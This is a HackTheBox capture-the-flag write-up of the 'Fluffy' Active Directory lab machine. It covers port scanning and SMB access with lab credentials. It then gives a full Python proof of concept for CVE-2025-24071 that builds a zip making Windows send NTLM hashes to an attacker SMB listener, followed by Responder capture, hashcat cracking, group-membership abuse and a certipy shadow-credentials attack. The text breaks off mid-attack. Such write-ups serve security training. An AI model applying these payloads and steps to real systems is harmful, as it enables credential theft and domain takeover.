# HackTheBox Writeup - Fluffy



## 🎯 Objectives & Tasks

1. Submit **🏴 User Flag**
2. Submit **🚩 Root Flag**

---

## 🔍 Reconnaissance

### 🛠️ RustScan

Using `RustScan`, we rapidly identify active ports and services:

```bash
rustscan -a 10.10.11.69 -t 2000 -b 1500 --ulimit 5000 --scan-order Serial -- -sC -sV --script vuln -T4 -Pn -v
```

**Result:**

```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.69:53
Open 10.10.11.69:88
Open 10.10.11.69:139
Open 10.10.11.69:389
Open 10.10.11.69:445
Open 10.10.11.69:593
Open 10.10.11.69:636
Open 10.10.11.69:464
Open 10.10.11.69:3269
Open 10.10.11.69:3268
Open 10.10.11.69:5985
Open 10.10.11.69:9389
Open 10.10.11.69:49667
Open 10.10.11.69:49690
Open 10.10.11.69:49689
Open 10.10.11.69:49697
Open 10.10.11.69:49707
Open 10.10.11.69:49712
Open 10.10.11.69:49757
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -sC -sV --script vuln -T4 -Pn -v" on ip 10.10.11.69

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain?       syn-ack
|
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2025-07-26 04:38:00Z)
|
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
|
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|
|_sslv2-drown: 
445/tcp   open  microsoft-ds? syn-ack
|
464/tcp   open  kpasswd5?     syn-ack
|
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
|
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|
|_sslv2-drown: 
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|
|_sslv2-drown: 
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|
|_sslv2-drown: 
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
|
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
|
49689/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
|
49690/tcp open  msrpc         syn-ack Microsoft Windows RPC
|
49697/tcp open  msrpc         syn-ack Microsoft Windows RPC
|
49707/tcp open  msrpc         syn-ack Microsoft Windows RPC
|
49712/tcp open  msrpc         syn-ack Microsoft Windows RPC
|
49757/tcp open  msrpc         syn-ack Microsoft Windows RPC
|
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=7/26%Time=68845912%P=x86_64-alpine-linux-musl%r
SF:(DNSVersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07ver
SF:sion\x04bind\0\0\x10\0\x03");
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### ✅ Summary Table

| Port(s)                                  | Service                     | Purpose                                                     |
| ---------------------------------------- | --------------------------- | ----------------------------------------------------------- |
| 53                                       | DNS                         | Domain name resolution                                      |
| 88, 464                                  | Kerberos / kpasswd          | Auth (88) and password change (464) for AD                  |
| 139, 445                                 | NetBIOS / SMB               | File sharing and remote service interaction                 |
| 389, 636                                 | LDAP / LDAPS                | Directory services over LDAP (unencrypted/encrypted)        |
| 3268, 3269                               | Global Catalog              | Forest-wide LDAP queries (unencrypted/encrypted)            |
| 593, 49689                               | RPC over HTTP (ncacn\_http) | Remote Procedure Calls via HTTP                             |
| 49667, 49690, 49697, 49707, 49712, 49757 | MS RPC                      | Ephemeral RPC endpoint mapper services                      |
| 5985                                     | WinRM (HTTP)                | Windows Remote Management (PowerShell Remoting entry point) |
| 9389                                     | AD Web Services (ADWS)      | Used by modern AD mgmt tools (e.g., PowerShell, RSAT)       |


### 📝 Tenable Nessus Findings



> xy



> xy



> Writable CIFS share `IT`



> Use tools like `snmpwalk -c public -v2c 10.10.11.69` to enumerate system info

---

## 🧠 Notable Observations

- **LDAP** and **LDAPS** expose the domain `fluffy.htb`, confirming it’s part of an AD forest.
- **Kerberos**, **LDAP**, **SMB**, and **RPC** together imply potential for enumeration, credential harvesting, and pass-the-ticket/skeleton key-style attacks.
- `WinRM (5985)` being open could allow remote PowerShell if credentials are found.
- **No web server or custom app** found on common ports — this is purely an AD infrastructure box, likely initial foothold will be through `SMB/LDAP/WinRM` + `credentials`.

---

### 🛠️ Kerberos Configuration

```bash
sudo nano /etc/krb5.conf
```

We make sure Kali is ready to communicate via **Kerberos** by configuring `/etc/krb5.conf`:

```bash
[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = FLUFFY.HTB


[realms]
    MIRAGE.HTB = {
        kdc = dc01.FLUFFY.HTB
        admin_server = dc01.FLUFFY.HTB
        default_domain = FLUFFY.HTB
    }


[domain_realm]
    .FLUFFY.HTB = FLUFFY.HTB
    FLUFFY.HTB = FLUFFY.HTB
```

---

## Access: Writeable SMB Share `\\10.10.11.69\IT`

**Service**: `TCP 445/smb`  
**Credentials**: `j.fleischman` `J0elTHEM4n1990!`

### Mount `cifs` share

```bash
sudo mount -t cifs //10.10.11.69/IT mnt -o username=j.fleischman
```

> `mkdir mnt` to create the mount directory inside our project.



### Enumerate sensitive files

The `.pdf` file `Upgrade_Notice.pdf` sounds interesting.



> [`CVE-2025-24071`](https://www.cvedetails.com/cve/CVE-2025-24071/) could be a potential entry point.  
> *`NTLM Hash Leak` via **RAR/ZIP Extraction** and `.library-ms` file*

---

## 🩸 `BloodHound` Enumeration (MITRE ATT&CK: Discovery)

With valid credentials and Kerberos access, we can fire up `bloodhound-python`:

```bash
bloodhound-python -u 'j.fleischman' -p 'J0elTHEM4n1990!' -k -d fluffy.htb -ns 10.10.11.69 -c All --zip
```

This completes the enumeration of:

- Domain Users
- Groups & OUs
- Computers & Sessions
- Trusts
- GPOs

The output is ready to be uploaded to **BloodHound** for privilege escalation analysis.

```bash
sudo bloodhound
```



> All users from the domain.

---

## [CVE-2025-24071](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-24071)

Windows Explorer **automatically initiates an SMB authentication request** when a `.library-ms` file is extracted from a **compressed archive** (e.g. `.zip`, `.rar`), leading to `NTLM hash disclosure`. The **user does not need to open** or **execute the file**. Simply **extracting it is enough** to trigger the leak.

### Weaponization

I found a public available PoC - Cheers to [`0x6rss`](https://github.com/0x6rss/CVE-2025-24071_PoC/tree/main) for the discovery!

The `poc.py` creates a weaponized `.zip` file, which when extracted, leads to NTLM hash disclosure.

**`CVE-2025-24071.py`**

```python
#!/usr/bin/env python3
# Title:      CVE-2025-24071
# Author:     Alessandro Salucci
# Date:       2025-07-25
# Description:
#   Generates a ZIP archive containing a `.library-ms` file pointing to a remote SMB share.
#   When a Windows user opens the ZIP in Explorer, it triggers automatic NTLM authentication
#   to the attacker-controlled SMB server.
#
# Requirements:
#   - Python 3.x
#   - Host an SMB server with responder or impacket-smbserver
#
# Usage:
#   $ python3 generate_library_ms_zip.py
#   Enter output filename: finance
#   Enter your IP (attacker SMB listener): 10.10.14.6
#
#   > Produces: `exploit.zip` containing `finance.library-ms`
#
# Legal:
#   For educational and authorized security testing use only.

import os
import zipfile

def generate_library_file(filename: str, ip: str):
    r"""Create a .library-ms file pointing to \\<ip>\shared"""
    payload = f"""<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\\\{ip}\\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
"""
    library_filename = f"{filename}.library-ms"
    with open(library_filename, "w", encoding="utf-8") as f:
        f.write(payload)
    return library_filename

def zip_payload_file(file_to_zip: str, zip_name="exploit.zip"):
    with zipfile.ZipFile(zip_name, "w", zipfile.ZIP_DEFLATED) as zipf:
        zipf.write(file_to_zip)
    os.remove(file_to_zip)

def main():
    filename = input("Enter output filename: ").strip()
    ip = input("Enter your IP (attacker SMB listener): ").strip()

    if not ip or not filename:
        print("[-] IP or filename missing.")
        return

    library_file = generate_library_file(filename, ip)
    zip_payload_file(library_file)

    print(f"[+] Payload ZIP created: exploit.zip (contains {library_file})")
    print(f"[!] When opened, victim will attempt to access: \\\\{ip}\\shared")
    print("[*] Run Responder or impacket-smbserver to capture NTLM hash.")

if __name__ == "__main__":
    main()
```

### Delivery

### Exploit

Create the weaponized `.zip` file with my script or the script of the mentioned GitHub.

```bash
python3 CVE-2025-24071.py
```

> Enter a name for the file (e.g. `PWND`) and enter your IP (get it with `ip a` and search for `tun0`)



Lets start a `responder` on our attacking machine.

```bash
sudo responder -I tun0 -vwd
```

**✅ Command Breakdown:**

| Flag      | Description                                                            |
| --------- | ---------------------------------------------------------------------- |
| `-I tun0` | Specify network interface to listen on — `tun0` is typical for HTB/VPN |
| `-v`      | Verbose output — see details of requests/responses                     |
| `-w`      | Start **WPAD rogue proxy** (useful if the target does auto-discovery)  |
| `-d`      | Answer **NetBIOS/LLMNR** queries with your attacker's IP               |

Copy the files to the `cifs` share.

```bash
sudo cp exploit.zip mnt 
```

**Result of `responder`:**

```bash
[SMB] NTLMv2-SSP Client   : 10.10.11.69
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:fabf039cacb3bfe1:947D8B9FC9105E78B5CBE8DAACDF4880:0101000000000000004F6C14D7FDDB010859D2D090B17C3F000000000200080051005A004B004D0001001E00570049004E002D004D003000530032005000380031004C0057004C00360004003400570049004E002D004D003000530032005000380031004C0057004C0036002E0051005A004B004D002E004C004F00430041004C000300140051005A004B004D002E004C004F00430041004C000500140051005A004B004D002E004C004F00430041004C0007000800004F6C14D7FDDB01060004000200000008003000300000000000000001000000002000007CCEB788579EB520A73589EB610FCF9933F7463B61C849E929F1E912EB62AADA0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003200310033000000000000000000
```

> We captured the `NTLMv2` hash for the user `p.agila`.

### 🔓 Crack the `NTLMv2` hash with `hashcat`

Save the hash in a file. (e.g. `p-agila.hash`)

:::Warning
No spaces, no newlines. Format must be exact.
:::

**`p-agila.hash`:**

```bash
p.agila::FLUFFY:fabf039cacb3bfe1:947D8B9FC9105E78B5CBE8DAACDF4880:0101000000000000004F6C14D7FDDB010859D2D090B17C3F000000000200080051005A004B004D0001001E00570049004E002D004D003000530032005000380031004C0057004C00360004003400570049004E002D004D003000530032005000380031004C0057004C0036002E0051005A004B004D002E004C004F00430041004C000300140051005A004B004D002E004C004F00430041004C000500140051005A004B004D002E004C004F00430041004C0007000800004F6C14D7FDDB01060004000200000008003000300000000000000001000000002000007CCEB788579EB520A73589EB610FCF9933F7463B61C849E929F1E912EB62AADA0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003200310033000000000000000000
```

Use the `-m 5600` to crack the hash with `hashcat`.

```bash
hashcat -m 5600 p-agila.hash /usr/share/wordlists/rockyou.txt --force
```

> As password list we can use `rockyou.txt` which comes pre installed on kali linux.

```bash
ession..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: P.AGILA::FLUFFY:fabf039cacb3bfe1:947d8b9fc9105e78b5...000000
Time.Started.....: Sat Jul 26 03:05:27 2025, (2 secs)
Time.Estimated...: Sat Jul 26 03:05:29 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2359.6 kH/s (1.44ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4517888/14344385 (31.50%)
Rejected.........: 0/4517888 (0.00%)
Restore.Point....: 4513792/14344385 (31.47%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: prrprr -> progree
Hardware.Mon.#1..: Util: 60%
```

> We cracked the `NTLMv2` hash successfully.

To show the results use:

```bash
hashcat -m 5600 p-agila.hash /usr/share/wordlists/rockyou.txt --show
```





> The user `p.agila` is **a member of** `SERVICE ACCOUNT MANAGERS`.

- The group `SERVICE ACCOUNT MANAGERS` has **GenericAll rights** over `SERVICE ACCOUNTS`.
  - This means, we can **fully control** the `SERVICE ACCOUNTS` group or its members.

**Members of `SERVICE ACCOUNTS`:**



---

## 🩸 Further `BloodHound` Enumeration (MITRE ATT&CK: Discovery)

### `ca_svc` user



- **🔎 Group Memberships**
  - `DOMAIN USERS`
  - `CERT PUBLISHERS`
    - Can publish certificates to **ADCS**
  - `SERVICE ACCOUNTS`

- **🔥 Exploitability**
  - The user is **a perfect shadow credentials target**.
  - being in `CERT PUBLISHERS` means it's involved in **ADCS operations**, and often g**ranted higher privileges** (potentially `DCSync`, or enrollment)
  - Since our user `p.agila` has the `GenericAll` right on the `SERVICE ACCOUNTS` group to modify, we can abuse this.

### Add user to `SERVICE ACCOUNTS`

Since we have the right `GenericAll` from `SERVICE ACCOUNT MANAGERS` group, we can add the user `p.agila` to the group `SERVICE ACCOUNTS`.

```bash
net rpc group addmem "SERVICE ACCOUNTS" "p.agila" -U "FLUFFY.HTB/p.agila%REDACTED" -S DC01.FLUFFY.HTB
```

> Now the user is also member of `SERVICE ACCOUNTS`.

This extended rights allow us to manage service accounts like `winrm_svc`.

---

## 🔓 `certipy-ad` shadow attack to impersonate `ca_svc` (MITRE ATT&CK: Credential Access)

### 🛠️ Shadow Credentials Attack on `ca_svc` with `certipy-ad`

```bash
certipy-ad shadow auto -account ca_svc -u p.agila@fluffy.htb -p 'REDACTED' -dc-ip 10.10.11.69
```

> 🧨 Shadow Credential Injection

**🔍 Command Breakdown:**

| Parameter        | Meaning                                                       |
| ---------------- | ------------------------------------------------------------- |
| `certipy shadow` | Invokes the **shadow credentials attack** module in Certipy   |
| `-u p.agila`     | Username you control that has rights (e.g., `GenericAll`)     |
| `-p '...'`       | Password for that user (`REDACTED`)                           |
| `-target ca_svc` | The **target account** you want to impersonate                |
| `-dc-ip ...`     | IP of the domain controller (LDAP/Kerberos traffic goes here) |

:::tip
If you get errors with commands relying on **Kerberos**, this could be because your machine is **out of sync with the Domain Controller (DC)**.  
This breaks **Kerberos authentication**, even with valid credentials.

Use the command following command, to sync your time with the DC:

```bash
sudo ntpdate 10.10.11.69
```

:::

**Result:**

```bash
[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '88425d2e-9d4a-2621-b799-ce40aaabf04d'
[*] Adding Key Credential with device ID '88425d2e-9d4a-2621-b799-ce40aaabf04d' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '88425d2e-9d4a-2621-b799-ce40aaabf04d' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@fluffy.htb'
